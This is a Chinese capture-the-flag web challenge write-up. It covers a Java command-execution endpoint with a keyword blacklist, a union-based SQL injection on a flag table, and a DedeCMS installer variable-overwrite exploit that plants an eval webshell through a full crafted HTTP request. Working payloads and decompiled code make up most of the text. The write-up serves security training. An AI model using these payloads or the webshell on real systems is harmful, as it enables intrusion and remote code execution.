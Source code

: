 # 粗心的开发人员

存在/info，提示发现目录下存在R.class文件，可能导致源代码泄露，请及时处理！

将R.class下载下来拿IDEA打开审计：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.example.demo2;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import org.apache.logging.log4j.util.Strings;
import org.springframework.util.DigestUtils;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping({"/r"})
public class R {
    public R() {
    }

    private boolean waf1(String data) {
        String[] blacks = new String[]{"cat", "more", "tail", "f", "l", "a", "g", "?", "*", "[", "]", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", ">", ";", "/"};
        if (Strings.isEmpty(data)) {
            System.out.println("1111");
            return true;
        } else {
            String[] var3 = blacks;
            int var4 = blacks.length;

            for(int var5 = 0; var5 < var4; ++var5) {
                String black = var3[var5];
                if (data.toLowerCase().contains(black)) {
                    return false;
                }
            }

            return true;
        }
    }

    @PostMapping({"/e"})
    public String CE(String x, String c, String cmd) {
        if (!this.waf1(cmd)) {
            return "hacker!! Go away!1111";
        } else if (!DigestUtils.md5DigestAsHex(x.getBytes()).startsWith("5ebe2294")) {
            return DigestUtils.md5DigestAsHex(x.getBytes()).substring(0, 8);
        } else {
            Runtime run = Runtime.getRuntime();
            StringBuilder sb = new StringBuilder();

            try {
                Process p = run.exec(c);
                BufferedInputStream in = new BufferedInputStream(p.getInputStream());
                BufferedReader inBr = new BufferedReader(new InputStreamReader(in));

                String tmpStr;
                while((tmpStr = inBr.readLine()) != null) {
                    sb.append(tmpStr);
                }

                if (p.waitFor() != 0 && p.exitValue() == 1) {
                    return "failed!!";
                } else {
                    inBr.close();
                    in.close();
                    return sb.toString();
                }
            } catch (Exception var10) {
                return String.valueOf(var10);
            }
        }
    }
}

```

简单的审计一下，路由是/r/e，传入的cmd进行waf，但是cmd后续没用。传入的x经过md5的结果是以5ebe2294开头，把这串东西放到谷歌上搜一下就会出现下面这串：

![image-20211022180252103](2021年 极客谷杯 Web.assets/image-20211022180252103.png)

查一下就知道这是secret的md5结果，所以x传secret，然后后面是一个命令执行，拿参数c 进行rce即可：

```
http://6c643ff4-67a2-4a2c-ace8-e14a55d40fd2.jkg.dasctf.com/r/e

x=secret&c=cat /flag.txt
```



# love_sql

一血。根据提示存在备份文件，扫一下发现了www.zip，里面有网站的源码。

发现在content.php里面存在SQL注入，但是ban了一些东西，但是基本算没有waf。考虑到可以联合注入，再加上题目告诉了我们flag在flag表里，这样就知道了表名，直接进行无列名注入。但是对内容进行了一次waf：

```php
    if(!stristr($row['content'],'DASCTF') && !stristr($row['time'],'DASCTF')){
        echo $row['content']."<br/>";
        echo $row['time'];
    }
```

进行一次编码就可以了，base64或者hex都行，直接打：

```
/content.php?id=-1%20union%20select%201,2,(select%20hex(hex(group_concat(`2`)))%20from%20(select%201,2%20union%20select%20*%20from%20flag)feng)
```

再把得到的内容进行2次hex解密即可得到flag。



# EZDEDE

一血。安装getshell，网上有一个，是这里的：

```php
else if($step==11)
{
    require_once('../data/admin/config_update.php');
    $rmurl = UPDATEHOST."dedecms/demodata.{$s_lang}.txt";
    $sql_content = file_get_contents($rmurl);
    $fp = fopen(INSTALL_DEMO_NAME,'w');
    if(fwrite($fp,$sql_content))
        echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
    else
        echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
    unset($sql_content);
    fclose($fp);
    exit();
}
```

但是不知道为什么打不通，利用安装的step4中的：

```php
        $conn = mysql_connect($dbhost,$dbuser,$dbpwd) or die("<script>alert('数据库服务器或登录密码无效，\\n\\n无法连接数据库，请重新设定！');history.go(-1);</script>");
```

构造mysql恶意服务端进行读取文件，读一下install/index.php，发现出题人把step11这里给删了，其他都没动，所以得再挖一下。

最终定位到了这里：

```php
    if(!isset($modules) || !is_array($modules))
    {
        //锁定安装程序
        $fp = fopen($insLockfile,'w');
        fwrite($fp,'ok');
        fclose($fp);
        include('./templates/step-5.html');
        exit();
    }
    else
    {
        $module = join(',',$modules);
        $fp = fopen($moduleCacheFile,'w');
        var_dump($moduleCacheFile);
        fwrite($fp,'<'.'?php'."\r\n");
        fwrite($fp,'$selModule = "'.$module.'"; '."\r\n");
        fwrite($fp,'?'.'>');
```

进入else就可以写入文件，这里的变量都可以进行覆盖：

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v) ${$_k} = RunMagicQuotes($_v);
}
```

唯一的问题就是，`$module`是被双引号包裹的，想要逃出来的话还得加双引号，但是在上面的`RunMagicQuotes`存在转义的处理，没法逃出双引号，那就不逃了：

```php
${eval($_POST[0])}
```



正常安装的时候抓个包改一下数据即可：

```http
POST /install/index.php HTTP/1.1
Host: 06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com
Content-Length: 418
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com/install/index.php?step=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

step=4&dbtype=mysql&dbhost=localhost&dbuser=root&dbpwd=root&dbprefix=dede_&dbname=dedecmsv57utf8sp2&dblang=utf8&adminuser=admin&adminpwd=admin&cookieencode=3WGGbidsWw5FshrPdHHxwDbfgyW6oAVv&webname=%E6%88%91%E7%9A%84%E7%BD%91%E7%AB%99&adminmail=admin%40dedecms.com&baseurl=http%3A%2F%2F06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com&cmspath=&installdemo=0&modules[]=${eval($_POST[0])}&moduleCacheFile=../data/1.php
```

即可写入`/data/1.php`，再去读flag即可。


